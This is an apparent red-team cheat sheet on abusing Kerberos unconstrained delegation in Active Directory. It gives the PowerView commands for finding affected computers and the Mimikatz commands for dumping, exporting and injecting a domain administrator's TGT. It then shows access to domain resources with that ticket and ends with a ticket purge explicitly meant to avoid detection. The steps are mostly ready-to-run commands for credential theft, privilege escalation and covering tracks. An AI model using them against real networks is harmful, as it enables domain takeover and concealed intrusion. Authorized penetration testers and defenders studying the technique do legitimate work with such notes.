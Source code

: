# 🟢 Unconstrained Delegation

### **Discover domain computers that have unconstrained delegation**

Domain Controllers always show up, ignore them

```
 . .\PowerView_dev.ps1
Get-Netcomputer -UnConstrained
Get-Netcomputer -UnConstrained | select samaccountname
```

### **Check if any DA tokens are available on the unconstrained machine**

Wait for a domain admin to log in while checking for tokens

```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### **Export the TGT ticket**

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### **Reuse the TGT ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

**Confirm Success of Ticket Injection**

After importing the TGT ticket to the current session, check if it was successful:

```
klist
```

This command will list all tickets in the cache, and you should see the injected TGT.

**Access Resources with Elevated Privileges**

Now that you have a valid TGT of a domain administrator, you can access resources on the domain that require DA privileges.

```
net view /domain
```

This command will list all domains and servers that the user has access to in the network.

#### Clean up Traces

It's important to remove traces of the attack to avoid detection.

```
Invoke-Mimikatz -Command '"kerberos::purge"'
```

This command purges all Kerberos tickets from the cache, including the injected TGT ticket.
